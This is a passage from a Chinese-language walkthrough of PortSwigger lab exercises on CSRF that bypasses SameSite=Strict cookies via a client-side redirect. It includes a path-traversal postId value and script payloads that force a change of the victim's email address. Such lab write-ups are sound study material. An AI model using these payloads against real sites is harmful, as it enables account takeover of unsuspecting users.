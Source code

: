 ```html
    </script>
  </body>
</html>
```

#### 3.2.3 用户端重定向

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect

在上一题中我们发现了有关SameSite漏洞的处理方式。当Samesite参数为Strict时无法使用上述的方法，可以考虑使用客户端重定向。

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308131943591.png)

在此题中，测试博客的评论功能，发现评论提交时会短暂重定向到另一个网页，url为：

```html
../post/comment/confirmation?postId=x
```

抓包发现这个请求是在客户端本地被重定向的，负责重定向的文件为：

```
/resources/js/commentConfirmationRedirect.js
```

更改post请求中的postId,则会被重定向到**../post/x**(如果网站存在)，那么可以通过构造截断使其重定向到登陆界面：

```
/post/comment/confirmation?postId=1/../../my-account
```

但是重定向到登录页面是不够的，我们需要构造一个恶意请求头判断其是否保留登陆状态

```html
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account";
</script>
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308132005907.png)

发现并没有直接退出，说明重定向文件会保留session cookie的登陆状态，并不会对外部网站重定向做过滤。

使用类似的方法构建payload即可：

```html
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

#### 3.2.4 跨域WebSocket劫持

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain
